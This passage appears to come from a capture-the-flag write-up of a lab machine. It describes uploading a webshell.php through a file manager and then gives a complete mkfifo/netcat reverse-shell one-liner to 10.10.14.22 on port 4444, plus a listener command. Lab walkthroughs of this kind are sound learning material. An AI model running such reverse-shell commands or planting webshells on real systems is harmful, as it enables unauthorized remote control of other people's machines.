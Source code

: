 ```html
			}
			 
			?>
		 
		</pre>
 
	</body>
 
</html>
```

They just had a file manager so I just uploaded the exploit and see if I were able to browse it

After some digging around, there was a directory called `/images` where you can view all the uploaded files, I located the `webshell.php` and opened it:

![](_attachments/pandora16.PNG)

There are different ways to get a reverse shell from this webshell, but I've used the following command:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4444 >/tmp/f
```

And listened on the local machine:
```bash
nc -nvlp 4444
```

![](_attachments/pandora17.PNG)

And we have a shell on our local machine.
